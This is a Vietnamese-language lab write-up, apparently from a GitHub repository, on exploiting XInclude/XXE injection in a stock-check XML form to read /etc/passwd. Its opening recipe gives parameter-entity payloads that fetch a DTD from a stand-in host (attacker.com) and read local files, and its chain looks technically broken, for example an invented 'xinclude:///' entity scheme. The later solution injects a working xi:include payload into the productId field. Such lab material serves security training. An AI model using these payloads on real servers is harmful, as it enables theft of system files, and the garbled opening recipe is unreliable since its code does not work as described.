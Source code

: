 # Exploiting XInclude để lấy tệp tin

Kỹ thuật XInclude có thể được khai thác để lấy các tệp tin từ máy chủ bằng cách chèn chúng vào tài liệu XML và sử dụng XInclude để đọc và trả về nội dung của chúng. Để thực hiện cuộc tấn công này, bạn cần biết đường dẫn đến tệp tin mục tiêu trên máy chủ. Dưới đây là một ví dụ về cách khai thác XInclude để lấy tệp tin:

1. Định nghĩa một đối tượng XML parameter entity để chứa đường dẫn đến tệp tin mục tiêu:

```xml
<!ENTITY % xinclude SYSTEM "file:///etc/passwd">
```

Trong ví dụ này, tôi sử dụng đường dẫn đến tệp tin `"/etc/passwd"` làm tệp tin mục tiêu.

2. Định nghĩa một đối tượng XML parameter entity khác để chứa khai báo XInclude:
```xml
<!ENTITY % xinclude-exp "<!ENTITY &#x25; exfil SYSTEM 'xinclude:///%xinclude;'>">
```

Đối tượng XML parameter entity này chứa khai báo XInclude với một đối tượng XML parameter entity bên trong có tên `"exfil"`.

3. Kết hợp các đối tượng XML parameter entity đã định nghĩa để tạo thành một tài liệu XML hoàn chỉnh:

```xml
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd">
%remote;
%xinclude-exp;
]>
<root>&exfil;</root>
```

Trong ví dụ này, tài liệu XML chứa một phần tử root và giá trị của nó là đối tượng XML parameter entity `"exfil"`.

4. Đặt tài liệu XML vào yêu cầu gửi đến ứng dụng mục tiêu và chờ nhận kết quả.

Khi ứng dụng mục tiêu xử lý yêu cầu, nó sẽ đọc tệp tin được chỉ định và trả về nội dung của tệp tin đó trong phản hồi. Bạn có thể lấy nội dung của tệp tin và sử dụng nó cho mục đích của mình.

# Overview:

Form của challenge

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/8d126bbe-c3cf-4495-a551-d7de5d15a9ea)

Theo mô ta của đề ta biết: Đầu vào của người dùng được bao gồm trong tài liệu XML trên máy chủ, nhưng không kiểm soát tài liệu XML đầy đủ. Goal là lấy được `etc/passwd`.

Đầu tiên ta check stock, và ta không thấy form XML

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/ffc8a329-f44e-4574-ab5f-7c6f2e50dc97)

Một form XML thường như thế nào 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck> 
```

Nếu tôi thêm một số XML vào một trong các trường, nó có thể kết thúc bên trong XML. Ví dụ: add <tag>content</tag> có thể dẫn đến XML như thế này:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1<tag>content</tag></productId>
  <storeId>1</storeId>
</stockCheck> 
```

# Solution:

Khai thác XInclude để lấy tệp tin, tôi tạo một thẻ mới chứa namespace XInclude và cung cấp đường dẫn tới tệp tin cần được bao gồm:

```xml
<xxx xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></xxx>
```

Tương tự như trong các bài lab trước, nếu `productId` không hợp lệ, nó sẽ được trả lại. Vì vậy, tôi thêm nội dung này vào `productId` trong yêu cầu để gây ra lỗi và có nội dung của `productId` trả về cho mình.

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/d2949edf-23be-4690-9c1c-d90e944ca557)

Vậy ta đã xong lab

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/d204c55c-d5da-4c0a-aae2-ee39482d2de1)

